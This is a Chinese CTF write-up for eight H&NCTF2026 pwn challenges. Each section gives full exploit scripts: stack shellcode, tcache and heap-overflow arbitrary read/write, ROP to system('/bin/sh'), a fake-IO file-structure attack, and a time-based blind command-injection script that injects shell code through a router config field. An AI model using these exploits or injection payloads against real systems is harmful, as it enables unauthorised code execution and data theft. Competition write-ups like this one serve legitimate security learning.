本文整理 H&NCTF2026 Pwn 方向 Writeup，包含 ezstack、expz1、ezpz2、notezpz、notezpz1-plus、notezpz2、applepie 和 fake_iot 的分析与利用过程。

<!-- more -->

## ezstack

先查看保护：



发现开了pie但是stack是executable？？？（虽然检测有时候会出错，但是如果真得可执行就不用费力构造rop了！）



禁用shell，只能orw


静态分析：

main是无限循环vuln函数



vuln中明显的栈溢出，可看出0x40的offset之后就是old rbp与return address：




动态调试可以看到offset正确和stack确实可执行（如图）：




那么思路就很明确了：

1.第一次可以先泄露一个栈地址

2.布局orw的code并返回到即可

最终exp.py:

```python
import time
from pwn import *

context.arch='amd64'
context.log_level = 'debug'
# p=gdb.debug('./pwn','b *$rebase(0x1296)\nb *$rebase(0x128F)\nc')
# p=remote('114.66.24.210',43950)
p=process('./pwn')
p.send(p64(0x48)*10+b'a'+b'\n')
raw=p.recv(0x48)[-8:]
print(raw)
leak=u64(raw)
print(hex(leak))
time.sleep(0.3)
shellcode=asm(shellcraft.open('flag')+shellcraft.read('rax',leak+0x100,0x30)+shellcraft.write(1,leak+0x100,0x30))
p.send(b'\x40'*0x47+p64(leak)+shellcode+b'\n')

p.interactive()
```

get flag:




## expz1

查看保护：



发现没开pie


静态分析：

首先发现有后门的win函数！



main函数无限循环menu：



menu中菜单是典型的堆题：



分别对应堆的add、delete、edit、show、exit操作

其中delete中有hangling pointer，可以直接uaf，但是注意这一题可以巧妙利用tcache bin的后进先出实现question和他的text两个堆互换（堆题的常见技巧），这是由于两个堆分配出来大小是相同的，因此第一次的question、text对应第二次的text和question；因此修改第二次的text就可以实现修改第一次的question从而执行任意函数（即win）

直接给出exp.py

```python
from pwn import *

context.arch='amd64'
context.log_level = 'debug'

# p=gdb.debug('./pwn','b *0x4016E8\nset resolve-heap-via-heuristic force\nc')
p=process('./pwn')
# p=remote('114.66.24.210',38127)

def create():
    p.sendlineafter(b'[Q]uit',b'c')
def delete(idx):
    p.sendlineafter(b'[Q]uit',b'd')
    p.sendlineafter(b'question id:',str(idx).encode())
def edit(idx,content):
    p.sendlineafter(b'[Q]uit',b's')
    p.sendlineafter(b'question id:',str(idx).encode())
    p.sendline(content)
def show(idx):
    p.sendlineafter(b'[Q]uit',b'a')
    p.sendlineafter(b'question id:',str(idx).encode())

create()
delete(0)
create()
edit(1,p64(0x4015C8)+p64(0x402240))
show(0)
# gdb.attach(p,'set resolve-heap-via-heuristic force\nb *0x401731\nc')

p.interactive()

```

get shell：




## ezpz2

检查保护：



依旧没开pie


静态分析：

虽然还是hangling pointer的问题，但是删除了后门函数win，同时改变了free的顺序（如图），无法再像上一题一样直接互换堆；



这一次变成了堆溢出：



那么此时可以直接溢出修改下一个question的text指针从而实现任意地址读写！


那么我的思路是uaf可以泄露libc，然后溢出实现任意地址读写可以读libc的environ变量泄露栈地址从而写入rop

直接给出exp.py:

```python
from pwn import *

context.arch='amd64'
context.log_level = 'debug'
libc=ELF('/home/kali/glibc-all-in-one/libs/2.39-0ubuntu8.7_amd64/libc.so.6')
# p=gdb.debug('./pwn','b *0x4016A3\nb *0x4012ED\nset resolve-heap-via-heuristic force\nc')
p=process('./pwn')
# p=remote('114.66.24.210',49179)

def create():
    p.sendlineafter(b'[Q]uit',b'c')
def delete(idx):
    p.sendlineafter(b'[Q]uit',b'd')
    p.sendlineafter(b'question id:',str(idx).encode())
def edit(idx,content):
    p.sendlineafter(b'[Q]uit',b's')
    p.sendlineafter(b'question id:',str(idx).encode())
    p.sendline(content)
def show(idx):
    p.sendlineafter(b'[Q]uit',b'a')
    p.sendlineafter(b'question id:',str(idx).encode())

# 通过uaf泄露libc
create()
create()
payload=p64(0)*5+p64(0x30)+p64(0)*3+p64(0x404018)
edit(0,payload)
show(1)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'')
print(raw)
leak=u64(raw.strip(b'\'').ljust(8,b'\x00'))
print(hex(leak))
libc.address=leak-libc.sym['puts']
print('libc.address:',hex(libc.address))

# 通过溢出任意读写，泄露栈地址
payload=p64(0)*5+p64(0x30)+p64(0)*3+p64(libc.sym['environ'])
edit(0,payload)
show(1)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'')
print(raw)
stack=u64(raw.strip(b'\'').ljust(8,b'\x00'))
print(hex(stack))

# 通过任意写写入rop
payload=p64(0)*5+p64(0x30)+p64(0)*3+p64(stack-0x160)
edit(0,payload)
# gdb.attach(p,'set resolve-heap-via-heuristic force\nb *0x40152B\nc')

pop_rdi=libc.address+0x000000000010f78b
system=libc.symbols['system']
binsh=next(libc.search(b'/bin/sh'))

payload=p64(pop_rdi)+p64(binsh)+p64(pop_rdi+1)+p64(system)
edit(1,payload)

p.interactive()

```

get shell:




## notezpz

### 我的方法

保护全开



静态分析发现功能与前面几乎一致，依旧可以栈溢出控制下一个question的text指针从而实现任意地址读写，

如图，这题很自然的一个想法是改print函数指针为system，question为指向"/bin/sh"字符串的指针；

但是由于question本身和print重合了，我以为没法实现，其实可以，见下文另一种的方法



本题泄露地址的方法有点独特：heap的地址容易获取，注意到heap上又有pie相关的函数地址，从而得到pie，再去通过got表泄露libc，从而又通过libc的environ泄露栈地址

最终我的思路比较麻烦：通过任意读泄露堆、libc、栈地址，从而在栈上写入rop，

exp如下

```python
from pwn import *

context.arch='i386'
context.log_level = 'debug'
libc=ELF('/home/kali/glibc-all-in-one/libs/2.35-0ubuntu3_i386/libc.so.6')
# p=gdb.debug('./pwn','b *$rebase(0xCBB)\nset resolve-heap-via-heuristic force\nc')
p=process('./pwn')
# p=remote('114.66.24.210',45924)

def create():
    p.sendlineafter(b'[Q]uit',b'c')
def delete(idx):
    p.sendlineafter(b'[Q]uit',b'd')
    p.sendlineafter(b'question id:',str(idx).encode())
def edit(idx,content):
    p.sendlineafter(b'[Q]uit',b's')
    p.sendlineafter(b'question id:',str(idx).encode())
    p.sendline(content)
def show(idx):
    p.sendlineafter(b'[Q]uit',b'a')
    p.sendlineafter(b'question id:',str(idx).encode())

# 泄露heap_base
create()
create()
delete(0)
delete(1)
create()
create()
show(3)

p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
heap_base=u32(raw[-3:].ljust(4,b'\x00'))<<12
print('heap base:',hex(heap_base))

# 泄露pie地址
create()
create()
delete(5)
delete(4)
payload=b'a'*0x1c+p32(0x21)+p32((heap_base>>12)^(heap_base+0x1b0))
edit(1,payload)
create() #6
edit(6,b'a'*8+p32(heap_base+0x1a0)+p32(0x21))
show(0)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
leak=u32(raw)
print('leak:',hex(leak))
pie_base=leak-0x845
print('pie_base:',hex(pie_base))

# 泄露libc地址
edit(6,b'a'*8+p32(pie_base+0x2FAC)+p32(0x21))
show(0)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
leak=u32(raw)
print('leak:',hex(leak))
libc.address=leak-libc.symbols['printf']
print('libc.address:',hex(libc.address))

# 泄露栈地址打栈
environ=libc.symbols['environ']
edit(6,b'a'*8+p32(environ)+p32(0x21))
show(0)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
stack=u32(raw)
print('stack:',hex(stack))

system=libc.symbols['system']
# binsh=stack-0x100-8
binsh=next(libc.search(b'/bin/sh'))
pop_edi=libc.address+0x00021e78
pop_esi=libc.address+0x00021479
pop_edx=libc.address+0x00037375
pop_eax=libc.address+0x0002ed92
pop_ebx=libc.address+0x0002c01f
pop_ecx_eax=libc.address+0x00128014
int0x80=libc.address+0x00037755

rop=b'/bin/sh\x00'+p32(system)+p32(0xdeadbeef)+p32(binsh)
# rop=b'/bin/sh\x00'+p32(pop_ebx)+p32(binsh)+p32(pop_ecx_eax)+p32(0)+p32(11)+p32(pop_edx)+p32(0)+p32(int0x80)

edit(6,b'a'*8+p32(stack-0x100-8)+p32(0x21))
# gdb.attach(p,'b *$rebase(0xB11)\nset resolve-heap-via-heuristic force\nc')
edit(0,rop)

p.interactive()
```

exp的冗余是由于32位栈传参几乎忘了，上网又搜索了半天😂

getshell




### 别的解法

“最后因为 ask_question 调用的是 `q->print(q)`，所以把 q1 的 print 改成 system 后，system 的参数就是 q1 本身。q1 开头 4 字节是 system 地址，后面紧跟 `;sh\x00`，shell 会先执行前面那段无效命令，再通过分号执行 `sh`，从而 getshell“，引自[2026 H&NCTF全解 WP - 信息安全知识库](https://www.gm7.org/archives/120797)

原来直接一个分号隔开就好了，🤣


## notezpz1-plus

### 我的解法

保护全开的2.39堆



除了libc版本和程序位数不一样，流程和解法和之前都差不多，关键点都是溢出控制text指针从而任意地址读写，泄露顺序和上面一样

exp

```python
from pwn import *

context.arch='amd64'
context.log_level = 'debug'
libc=ELF('/home/kali/glibc-all-in-one/libs/2.39-0ubuntu8.7_amd64/libc.so.6')
p=process('./pwn')
# p=remote('114.66.24.210',45924)

def create():
    p.sendlineafter(b'[Q]uit',b'c')
def delete(idx):
    p.sendlineafter(b'[Q]uit',b'd')
    p.sendlineafter(b'question id:',str(idx).encode())
def edit(idx,content):
    p.sendlineafter(b'[Q]uit',b's')
    p.sendlineafter(b'question id:',str(idx).encode())
    p.sendline(content)
def show(idx):
    p.sendlineafter(b'[Q]uit',b'a')
    p.sendlineafter(b'question id:',str(idx).encode())

# 泄露heap_base
create()
create()
delete(0)
delete(1)
create()
create()
show(3)

p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
heap_base=u64(raw[-5:].ljust(8,b'\x00'))<<12
print('heap base:',hex(heap_base))

# 泄露pie地址
create()
create()
delete(5)
delete(4)
payload=b'a'*0x28+p64(0x31)+p64((heap_base>>12)^(heap_base+0x2c0))
edit(1,payload)
create() #6
edit(6,b'a'*0x10+p64(heap_base+0x2b0)+p64(0x31))
show(0)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
leak=u64(raw.ljust(8,b'\x00'))
print('leak:',hex(leak))
pie_base=leak-0x12c7
print('pie_base:',hex(pie_base))
# gdb.attach(p,'b *$rebase(0x16C8)\nset resolve-heap-via-heuristic force\nc')

# 泄露libc地址
edit(6,b'a'*0x10+p64(pie_base+0x3FB8)+p64(0x31))
show(0)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
leak=u64(raw.ljust(8,b'\x00'))
print('leak:',hex(leak))
libc.address=leak-libc.symbols['fgets']
print('libc.address:',hex(libc.address))

# 泄露栈地址打栈
environ=libc.symbols['environ']
edit(6,b'a'*0x10+p64(environ)+p64(0x31))
show(0)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
stack=u64(raw.ljust(8,b'\x00'))
print('stack:',hex(stack))

system=libc.symbols['system']
binsh=next(libc.search(b'/bin/sh'))
pop_rdi=libc.address+0x000000000010f78b

rop=p64(pop_rdi+1)+p64(pop_rdi)+p64(binsh)+p64(system)

# gdb.attach(p,'b *$rebase(0x154C)\nset resolve-heap-via-heuristic force\nc')
edit(6,b'a'*0x10+p64(stack-0x160)+p64(0x31))
edit(0,rop)

p.interactive()

```

get shell




### 别的解法

[2026 H&NCTF全解 WP - 信息安全知识库](https://www.gm7.org/archives/120797)该文章中给的解法是：

通过溢出修改堆的size到很大（当然还需要满足堆的特性，2.39的unsorted bin相关的检查还是非常严格的）释放进入unsorted从而泄露libc，然后用任意写直接在libc布局fake IO并修改IO_list_all，从而走IO_flush_all调用system


## notezpz2

2.39堆题并且保护全开



解题心路历程：

这一题没有堆溢出了，而且堆是固定大小、固定顺序分配，一旦删除还会合并为unsorted bin，无法largebin attack；

这题静态分析似乎感觉不太能做

但是巧就巧在text指针是在largebin的bk_nextsize位置的，尝试可以发现第一个进入largebin的堆text指针是指向他自己的，也就是可以任意地址读写一次；(为什么不能够两次呢？这是因为同等大小的largebin只有第一个使用fd_nextsize、和bk_nextsize，剩下的通过fd和bk形成链表)

于是我通过风水得到了libc地址，发现又无法得到其他地址（如果改到environ写就没有意义），然后又尝试直接打IO打house of some，但是120的长度似乎不太够？

思考良久没有结果于是看了一眼wp；我恍然大悟！我再让两个unsorted合并后进入largebin不就有两个size的largebin了吗，不就可以任意读写两次了吗？

于是第一次读environ，第二次将rop写入栈

exp如下：

```
from pwn import *

context.arch='amd64'
context.log_level = 'debug'
libc=ELF('/home/kali/glibc-all-in-one/libs/2.39-0ubuntu8.7_amd64/libc.so.6')
p=process('./pwn')
# p=remote('114.66.24.210',45924)

def create():
    p.sendlineafter(b'[Q]uit',b'c')
def delete(idx):
    p.sendlineafter(b'[Q]uit',b'd')
    p.sendlineafter(b'question id:',str(idx).encode())
def edit(idx,content):
    p.sendlineafter(b'[Q]uit',b's')
    p.sendlineafter(b'question id:',str(idx).encode())
    p.sendline(content)
def show(idx):
    p.sendlineafter(b'[Q]uit',b'a')
    p.sendlineafter(b'question id:',str(idx).encode())

# 泄露libc，同时因为largebin的nextsize刚好可以有一次任意地址写
create()
create()
create()
create()
create()
create()
create()
delete(0)
delete(2)
delete(3)
# gdb.attach(p,'b *$rebase(0x153E)\nset resolve-heap-via-heuristic force\nc')
delete(5)
create()
show(5)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
leak=u64(raw.ljust(8,b'\x00'))
print('leak:',hex(leak))
libc.address=leak-0x203B20
print('libc.address:',hex(libc.address))

# 两个大小的largebin都可以实现任意读写，一个读栈，一个写栈
environ=libc.symbols['environ']
edit(0,p64(0x951)*5+p64(environ))
show(0)
p.recvuntil(b'\'')
raw=p.recvuntil(b'\'',drop=True)
print('raw:',raw)
stack=u64(raw.ljust(8,b'\x00'))
print('stack:',hex(stack))

pop_rdi=libc.address+0x000000000010f78b
system=libc.symbols['system']
binsh=next(libc.search(b'/bin/sh\x00'))
# rop=p64(pop_rdi)+p64(binsh)+p64(system)
rop=p64(pop_rdi+1)+p64(pop_rdi)+p64(binsh)+p64(system)
edit(2,p64(0x12a1)*5+p64(stack-0x160))
edit(2,rop)

p.interactive()

```

get shell




## applepie

2.39堆题，保护全开，沙箱也开（这应该是比赛中最复杂的一道堆题）





静态分析：

基本是正常的堆题流程（resize对做题似乎没什么用？），漏洞点在delete时的hangling pointer，只有一个函数值得注意，即图中的ptr_allowed



这个函数保证堆的地址不能在栈上，于是增大了这道题的难度

2.39的tcache实现任意分配从而任意地址读写还是比较容易的，但是如果不能分配到栈上，在2.39（无各种hook）版本还是比较麻烦的，基本只能打IO

因为tcache换一个大小就能在不崩溃条件下再一次任意读写，所以我的思路：

先通过一个大堆（不在tcache）和一个tcache范围的小堆泄露libc和heap地址，然后再通过tcache任意分配读取environ泄露stack地址；

换一个大小tcache任意分配从而打IO，具体就是改stderr（这样不用改_IO_list_all）为fake IO从而任意地址写rop到栈（这样就不通过堆写，也就绕过了ptr_allowed的检测）

exp

```python
import time

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
libc = ELF('/home/kali/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')
p=process('./applepie')

def add(idx,heap_size):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'idx: ',str(idx).encode())
    p.sendlineafter(b'size: ',str(heap_size).encode())
def edit(idx,content_size,content):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ',str(idx).encode())
    p.sendlineafter(b'len: ',str(content_size).encode())
    p.sendafter(b'data: ',content)
def show(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ',str(idx).encode())
def resize(idx,heap_size):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'idx: ',str(idx).encode())
    p.sendlineafter(b'new size: ',str(heap_size).encode())
def delete(idx):
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'idx: ',str(idx).encode())
def quit_process():
    p.sendlineafter(b'> ',b'6')


# 先泄露libc和heap
add(1,0x508)
add(2,0x78)
delete(1)
show(1)
raw=p.recvuntil(b'\x7f')
leak=u64(raw.split(b':')[-1][1:].ljust(8,b'\x00'))
print('leak =',hex(leak))
libc.address=leak-0x203B20
print('libc address =',hex(libc.address))
delete(2)
show(2)
raw=p.recvuntil(b'\x00')
leak=u64(raw.split(b' ')[-1].ljust(8,b'\x00'))
print('leak =',hex(leak))
heap_base=leak<<12
print('heap_base =',hex(heap_base))

# tcache打environ泄露栈
add(3,0x78)
add(4,0x78)
delete(3)
delete(4)
edit(4,0x8,p64((heap_base>>12)^(libc.symbols['environ']-0x18)))
add(5,0x78)
add(6,0x78)
show(6)
raw=p.recvuntil(b'\x7f')
stack_addr=u64(raw[-6:].ljust(8,b'\x00'))
print('stack_addr =',hex(stack_addr))

# tcache改sterr为stdin打栈
add(7,0x398)
add(8,0x398)
delete(7)
delete(8)
_IO_list_all=libc.symbols['_IO_list_all']
edit(8,0x8,p64((heap_base>>12)^(_IO_list_all+0x10)))
add(9,0x398)
add(10,0x398)

_IO_file_jumps=libc.symbols['_IO_file_jumps']

pop_rdi_ret = libc.address + 0x000000000010f75b
pop_rsi_ret = libc.address + 0x0000000000110a4d
mov_rdx_rbx_3pop_ret = libc.address + 0x00000000000b0123
pop_rbx = libc.address + 0x00000000000586d4
pop_rax_ret = libc.address + 0x00000000000dd237
syscall_ret = libc.address + 0x0000000000098fa6
payload1 = flat([
    pop_rax_ret, 257,
    pop_rdi_ret, 0xFFFFFFFFFFFFFF9C,
    pop_rsi_ret, stack_addr-0x140 + 0xe0 + 0x18,
    pop_rbx, 0,
    mov_rdx_rbx_3pop_ret,0,0,0,
    syscall_ret,

    pop_rax_ret, 0,
    pop_rdi_ret, 3,
    pop_rsi_ret, stack_addr-0x140 + 0x180 + 0x18,
    pop_rbx, 0x30,
    mov_rdx_rbx_3pop_ret,0,0,0,
    syscall_ret,

    pop_rax_ret, 1,
    pop_rdi_ret, 1,
    syscall_ret,
    b"flag\x00\x00\x00\x00"
])

fake_io_read = flat({
    0x00: 0x8000 | 0x40 | 0x1000, #_flags
    0x20: stack_addr-0x140, #_IO_write_base
    0x28: stack_addr-0x140+len(payload1), #_IO_write_ptr
    0x68: 0, #_chain
    0x70: 0, # _fileno
    0xc0: 0, #_modes
    0xd8: _IO_file_jumps - 0x8, #_vtables
}, filler=b'\x00')
payload=p64(0)*2+fake_io_read
# gdb.attach(p,'b *$rebase(0x1AF1)\nc')
edit(10,len(payload),payload)

quit_process()
time.sleep(0.3)
p.send(payload1)

p.interactive()

```

get flag




此题文章给的解法略显复杂，需要伪造fake IO调用setcontext给各个寄存器赋值从而栈迁移，然后跳到rop上面进行orw


## fake_iot

这一题比较吃web等方面基础知识，首先需要分析明白附件都是什么

首先打开题目链接看到，有一个登录页面需要输入密码，那就需要猜测密码的验证逻辑，发现直接在前端的login.html校验了密码



进入后可交互的地方应该只有如图的两个保存配置，也就是暗示是在解析这些数据的时候出现漏洞





作为pwn题，给了两个二进制附件，busybox和httpd；其中“BusyBox 是一个开源项目，它提供了大约 400 个常见 UNIX/Linux 命令的精简实现。“，BusyBox是题目运行环境里用来提供常见命令的工具箱，不是主要逆向目标

所以说真正有漏洞的应该是这个后端的httpd

main函数看起来比较复杂，但是其实只是一些网络的配置，主要逻辑就在while循环这里



可以看到真正的处理逻辑在这个handle_client里面

进入这个函数发现大多是在处理网络包数据，有一个危险的地方是system命令执行



可以发现最终执行命令来自于firewallrulecopy的拼接，这个拼接明显是单引号提前闭合的命令注入

尝试一下发现成功了





但是问题是怎么回显？？？抓包发现回显与命令执行结果无关，那怎么泄露flag？？？



当时比赛并没有想到，一直在想怎么通过报错什么的回显，但是并不成功

赛后复盘想到这个类似与web的时间盲注，只需写出盲注脚本（AI写的😢），当然难点在shell script的编写，怎么实现第i位判断决定是否sleep？

```bash
if [ \"$(cat flag | cut -c {i})\" = '{char}' ]; then sleep 0.1; fi;
```


```python
import string
import time
import requests

# 1. 设置目标 URL
url = "http://10.249.11.205:8765/api/lan"
valid_token = 'W2SUccrdr-4y1pn8lCNEbSIf89btNHEXN9S9e57QIs4'
# 2. 设置请求头 (Headers)
# 注意：requests 库通常会自动处理 Host, Content-Length, Connection 等字段，
# 但为了确保请求特征一致，这里保留了关键的业务头信息。
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:152.0) Gecko/20100101 Firefox/152.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Referer": f"http://10.249.11.205:8765/lan.html?token={valid_token}",
    "Origin": "http://10.249.11.205:8765",
    "Content-Type": "application/x-www-form-urlencoded",
    "Priority": "u=0"
}

# 3. 设置表单数据 (Data)
# 注意：这里使用了字典格式，requests 会自动将其编码为 x-www-form-urlencoded 格式
data = {
    "lanIp": "192.168.1.1",
    "subnetMask": "255.255.255.0",
    "dhcpEnabled": "true",
    "dhcpStart": "192.168.1.100",
    "dhcpEnd": "192.168.1.200",
    "gateway": "192.168.1.1",
    "dns": "8.8.8.8",
    "firewallRule": "a'; ls #",  # 注意：这里包含特殊字符，字典格式能自动处理编码
    "wifi24Ssid": "NetGate-X1",
    "wifi5Ssid": "NetGate-X1-5G",
    "wifiPassword": "netgate2026",
    "security": "WPA2-PSK",
    "channel": "Auto",
    "txPower": "High",
    "token": f"{valid_token}"
}

# 4. 发送 POST 请求

flag = ""
charset = string.ascii_letters + string.digits + "{}_-"

for i in range(1, 50):  # 假设 flag 长度不超过 50
    found = False
    print(f"\n[*] 正在爆破第 {i} 位字符...")

    # 内层循环：遍历字符集里的每一个字符
    for char in charset:
        # 1. 动态拼接你的时间盲注 payload
        # 这里的逻辑是：如果数据库里的第 i 个字符等于 char，就触发 sleep 0.1
        # 注意：这里的 substring 和 sleep 语法需要根据你实际的数据库类型(如 MySQL)调整
        payload = f"a'; if [ \"$(cat flag | cut -c {i})\" = '{char}' ]; then sleep 0.1; fi; #"

        # 2. 组装请求数据 (这里省略了其他固定参数，实际使用时请补全)
        data = {
            "lanIp": "192.168.1.1",
            "subnetMask": "255.255.255.0",
            "dhcpEnabled": "true",
            "dhcpStart": "192.168.1.100",
            "dhcpEnd": "192.168.1.200",
            "gateway": "192.168.1.1",
            "dns": "8.8.8.8",
            "firewallRule": payload,  # 注意：这里包含特殊字符，字典格式能自动处理编码
            "wifi24Ssid": "NetGate-X1",
            "wifi5Ssid": "NetGate-X1-5G",
            "wifiPassword": "netgate2026",
            "security": "WPA2-PSK",
            "channel": "Auto",
            "txPower": "High",
            "token": f"{valid_token}"
        }

        # 3. 计时并发送请求
        start_time = time.time()
        try:
            # 同样提醒：这里不要加 timeout 参数
            requests.post("http://10.249.11.205:8765/api/lan", data=data)
        except:
            pass
        end_time = time.time()

        elapsed_time = end_time - start_time

        # 4. 判断延迟 (阈值 0.1 秒，稍微放宽一点到 0.09 防止网络抖动误判)
        if elapsed_time > 0.09:
            flag += char
            print(f"\n[+] 成功！第 {i} 位是: {char}  (耗时: {elapsed_time:.3f}s)")
            print(f"[*] 当前已获取的 flag: {flag}")
            found = True
            break  # 猜对了一个字符，跳出内层循环，去猜下一个字符

    # 如果遍历完整个字符集都没猜中，说明 flag 已经结束了
    if not found:
        print("\n[*] 字符集遍历完毕，未找到匹配字符，爆破结束。")
        break

print(f"\n[+] 最终获取的 flag: {flag}")

```

get flag




## 完结撒花🎉，欢迎评论讨论！！！
